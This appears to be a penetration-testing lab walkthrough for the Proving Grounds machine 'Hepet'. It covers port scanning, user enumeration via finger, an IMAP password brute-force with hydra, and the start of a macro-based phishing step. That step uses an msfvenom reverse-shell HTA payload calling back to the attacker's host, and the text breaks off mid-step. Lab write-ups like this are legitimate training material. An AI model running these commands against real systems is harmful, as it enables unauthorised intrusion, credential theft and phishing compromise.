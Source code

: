 #### Walkthrough

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Hepet/walkthrough.png)

#### Enumeration

```
sudo nmap -Pn -p- -sV 192.168.239.140 -T4 -oN Hepet.nmap
```

```
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-16 11:19 EDT
Nmap scan report for 192.168.239.140
Host is up (0.21s latency).
Not shown: 65522 filtered ports
PORT      STATE SERVICE        VERSION
25/tcp    open  smtp           Mercury/32 smtpd (Mail server account Maiser)
79/tcp    open  finger         Mercury/32 fingerd
105/tcp   open  ph-addressbook Mercury/32 PH addressbook server
106/tcp   open  pop3pw         Mercury/32 poppass service
110/tcp   open  pop3           Mercury/32 pop3d
143/tcp   open  imap           Mercury/32 imapd 4.62
443/tcp   open  ssl/http       Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.3.23)
2224/tcp  open  http           Mercury/32 httpd
7680/tcp  open  pando-pub?
8000/tcp  open  http           Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.3.23)
11100/tcp open  vnc            VNC (protocol 3.8)
20001/tcp open  ftp            FileZilla ftpd 0.9.41 beta
33006/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33006-TCP:V=7.91%I=7%D=8/16%Time=611A82E9%P=x86_64-pc-linux-gnu%r(N
SF:ULL,4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.49\.239'\x20is\x20not\x20a
SF:llowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(RPCCheck
SF:,4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.49\.239'\x20is\x20not\x20allo
SF:wed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(LANDesk-RC,
SF:4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.49\.239'\x20is\x20not\x20allow
SF:ed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(afp,4D,"I\0\
SF:0\x01\xffj\x04Host\x20'192\.168\.49\.239'\x20is\x20not\x20allowed\x20to
SF:\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: Host: localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 294.07 seconds
```

All the http services don't seem to have vulnerabilities. Trying to use brute-force attatcks to find the useful information. The rockyou.txt wordlist
is not working so I generate wordlists from https website.

```
cewl -d 4 https://192.168.247.140 -w ~/Documents/OffSecPG/Hepet/wordlists.txt
```

Using ![finger-user-enum.pl](https://github.com/pentestmonkey/finger-user-enum) to enumerate users.

```
perl finger-user-enum.pl -U /usr/share/wordlists/names.txt -t 192.168.220.140 > finger_enum_log.txt
```

Finding existing users: Agnes, admin, Jonas, Magnus, Martha, Charlotte. The website also shows employees' information.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Hepet/Hepet_2021.08.27_00h40m35s_002_.png)
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Hepet/Hepet_2021.08.27_00h41m04s_003_.png)

Only the IMAP service found is suitable for enumeration. Other services will block brute-force attacks.

```
hydra -l jonas -P ~/Documents/OffSecPG/Hepet/wordlists.txt 192.168.247.140 -s 143 imap
```

Getting a vaild passowd successfully.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Hepet/Hepet_2021.08.25_23h51m41s_001_.png)

Logging in to pop3 service and read the email. The letter mentioned that their computers were installed with office software. The concept is sending an office file contain a malicious macro. (I am stuck here. Referring to other walkthroughs below.)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Hepet/Hepet_2021.08.26_00h27m32s_003_.png)

Creating a hta payload. We need to extract the command from it.

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.220 LPORT=80 -f hta-psh -o tmp.hta
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Hepet/Hepet_2021.08.28_01h32m52s_001_.png)

Because VBA's literal string can contain a maximum of 255 characters. So we have to separate the command string.

